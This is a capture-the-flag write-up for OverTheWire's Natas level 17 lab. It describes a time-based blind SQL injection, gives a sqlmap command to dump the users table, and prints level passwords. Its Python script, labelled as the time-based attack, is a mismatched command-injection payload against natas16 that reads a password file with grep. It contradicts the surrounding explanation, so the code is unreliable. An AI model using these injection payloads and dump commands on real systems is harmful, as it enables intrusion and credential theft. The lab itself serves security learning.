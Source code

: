 # OverTheWire Wargames

## Natas Level 16 --> Level 17

**Username:** natas17

**Password:** 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

**URL:**      http://natas17.natas.labs.overthewire.org

 
### Solution
* Click view sourcecode there you can see that there isn't any output we got back from the server, so we need to think out something else to determine the response of the select statment
* We can use 'SLEEP(n)' to determine from the response time whether entered character exists in the password or not, using this query (Time-based attacks):
```
 SELECT * from users where username="natas18" AND password LIKE BINARY '{char}%' AND SLEEP(5) --
```
* Notice that the condition after 'AND' execute only if the previous condition return TRUE, so if the password condition return true the response should be delayed by 5sec
* We can implements this aproach in two ways:
##### Python Script
* To perform brute-force to retrieve the password using Time-based attack use this python script:
```py
import requests
import string

chars = string.ascii_uppercase + string.ascii_lowercase + '0123456789'
base_url = 'http://natas16.natas.labs.overthewire.org/?needle='
password = ''

for i in range(32):
    cnt = 0
    while True:
        payload = password + chars[cnt]
        r = requests.get(base_url+f'Africans$(grep ^{payload} /etc/natas_webpass/natas17)', auth=('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'))
        cnt += 1

        if not 'Africans' in r.text:
            password = payload
            print(password)
            break
```

##### Sqlmap
* Use this command to retreive the password using sqlmap *(Database name and columns name can be found in the sourcecode)*
```sh
  sqlmap -u "http://natas17.natas.labs.overthewire.org/index.php" --auth-type=Basic --auth-cred=natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw --data="username=natas18" --level=3 --risk=1 --technique=T --threads=4 --dbms=MySQL -D natas17 -T users -C username,password --dump --batch
```
* Here is an explaination of each flag:
> -u              URL
> 
> --auth-type     HTTP authentication
> 
> --auth-cred     HTTP authentication credentials (name:password)
> 
> --data          Data string to be sent
> 
> --level         Number of checks to be performed.  (Range is 1 to 5. Default is 1.)
> 
> --risk          Types of payloads to use. Higher numbers could cause problems for the server. (Range is 1 to 3.  Default is 1.)
> 
> --technique     T is for Time-based attacks
> 
> --threads       Max number of concurrent HTTP(s) requests
> 
> --dbms          DataBase Management System 
> 
> -D              Database name 
>        
> -T              Table name
> 
> -C              Column name(s)
> 
> --dump          Dump DBMS database table entries
> 
> --batch         Never ask for user input, use the default behaviour


** You got the password!!

### Natas18 Password
> xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

